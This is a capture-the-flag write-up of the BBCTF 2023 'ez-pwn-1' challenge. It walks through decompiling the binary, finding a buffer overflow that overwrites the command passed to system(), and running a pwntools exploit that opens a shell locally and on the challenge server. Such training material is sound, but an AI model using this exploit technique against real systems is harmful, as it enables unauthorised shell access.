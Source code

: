### Binary Exploitation

### Source: BBCTF_23

### Basic File Checks

```
└─$ file ez-pwn-1 
ez-pwn-1: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=26217945613bd2e86e73d01ae50a82c592549ccc, not stripped
                                                                                                        
┌──(venv)─(mark㉿haxor)-[~/…/CTF/BCTF/pwn/ez_pwn]
└─$ checksec ez-pwn-1 
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/mark/Desktop/CTF/BCTF/pwn/ez_pwn/ez-pwn-1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

With this we see all protection of the binary are enabled and we're working with a x64 binary

I'll run it to know what it does

```
┌──(venv)─(mark㉿haxor)-[~/…/CTF/BCTF/pwn/ez_pwn]
└─$ ./ez-pwn-1
Hi! would you like me to ls the current directory?
yes
Ok, here ya go!

ez-pwn-1  flag.txt
```

It takes in our input and lists the files in the current working directory

So i'll decompile using ghidra

Here's the main function

```

undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_30 [8];
  undefined2 local_28;
  undefined local_26;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_28 = 0x736c;
  local_26 = 0;
  puts("Hi! would you like me to ls the current directory?");
  read(0,local_30,0x18);
  iVar1 = strcmp(local_30,"no\n");
  if (iVar1 == 0) {
    puts("Oh, ok :(");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Ok, here ya go!\n");
  system((char *)&local_28);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

So here's what is basically happening

```
1. It saves a value in local_28 which when decoded is `ls`
2. It then prints out the question
3. After that our input is receieved and stores in local_30 
4. If our input is no it exits 
5. But if our input is any other word is runs system on the value stored in local_28 which is ls
```

So with this we know that its going to run `ls` anytime we run the binary and the input given isn't `no` 

But here's the problem! The buffer `local_30` can only hold up to 8bytes but we're given an access to write `0x18` in `local_30`              

```
read(0,local_30,0x18);
```

So basically what this can lead to is that we can overwrite `local_30` to anything and is will run system on it

With this we obviously want to call `bash` so we can get a linux bash terminal

Before that i need to get the offset from the input to the local_28 variable

Here's the stack layout

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         AL:1           <RETURN>
             undefined8        Stack[-0x10]:8 local_10                                XREF[2]:     001007db(W), 
                                                                                                   0010085a(R)  
             undefined1        Stack[-0x26]:1 local_26                                XREF[1]:     001007ea(W)  
             undefined2        Stack[-0x28]:2 local_28                                XREF[3]:     001007e1(*), 
                                                                                                   001007e5(*), 
                                                                                                   00100849(*)  
             undefined1        Stack[-0x30]:1 local_30                                XREF[2]:     001007fa(*), 
                                                                                                   00100810(*)  
                             main                                            XREF[4]:     Entry Point(*), 
                                                                                          _start:001006dd(*), 00100970, 
                                                                                          00100a18(*)  
```

We see that our input starts at offset 0x30 and local_38 offset is 0x28

So the offset between this two is `0x30 - 0x28 = 0x8`

And the hex of bash is `0x62617368`

```
└─$ python3       
Python 3.10.8 (main, Oct 24 2022, 10:07:16) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> s = "bash"
>>> hex_value = ''.join([hex(ord(c))[2:] for c in s])
>>> print(hex_value)
62617368
>>> 
                                                                                                        
┌──(venv)─(mark㉿haxor)-[~/…/CTF/BCTF/pwn/ez_pwn]
└─$ echo 68736162 | xxd -r -p | rev
bash                                                                                                        
```

So here's the exploit

```
from pwn import *

#io = remote('pwn.bbctf.fluxus.co.in', 4001)
io = process('./ez-pwn-1')

payload = ""
payload += "A"*0x8
payload += p64(0x68736162) #overwrite local_28 to bash

io.send(payload)
io.interactive()
```

So lets run it locally

````
└─$ python2 exploit.py                                    
[+] Starting local process './ez-pwn-1': pid 215751
[*] Switching to interactive mode
Hi! would you like me to ls the current directory?
Ok, here ya go!

$ 
$ ls
exploit.py  ez-pwn-1  flag.txt
$ whoami
mark
$ cat flag.txt
lol
$ 
```

It worked! Now here's the exploit for the remote server

```
from pwn import *

io = remote('pwn.bbctf.fluxus.co.in', 4001)
#io = process('./ez-pwn-1')

payload = ""
payload += "A"*0x8
payload += p64(0x68736162) #overwrite local_28 to bash

io.send(payload)
io.interactive()
```

Now i'll run it 

```
└─$ python2 exploit.py
[+] Opening connection to pwn.bbctf.fluxus.co.in on port 4001: Done
[*] Switching to interactive mode
Hi! would you like me to ls the current directory?
Ok, here ya go!

$ ls -al
total 40
drwxr-x--- 1 root pwnable_user  4096 Feb  4 05:23 .
drwxr-xr-x 1 root root          4096 Feb  4 05:23 ..
-rw-r--r-- 1 root pwnable_user   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 root pwnable_user  3771 Jan  6  2022 .bashrc
-rw-r--r-- 1 root pwnable_user   807 Jan  6  2022 .profile
drwxr-xr-x 1 root pwnable_user  4096 Feb  4 05:23 .the_flag_is_in_here
-r-xr-x--- 1 root pwnable_user 16184 Feb  3 17:43 ez-pwn-1
$ cd .the_flag_is_in_here
$ ls -al
total 12
drwxr-xr-x 1 root pwnable_user 4096 Feb  4 05:23 .
drwxr-x--- 1 root pwnable_user 4096 Feb  4 05:23 ..
-r--r----- 1 root pwnable_user   33 Feb  3 17:43 flag.txt
$ cat flag.txt;echo
flag{4_Cl45siC_M3mOry_COrrupt1ON}
$ 
```

And we're done 

<br> <br> 
[Back To Home](../../index.md)







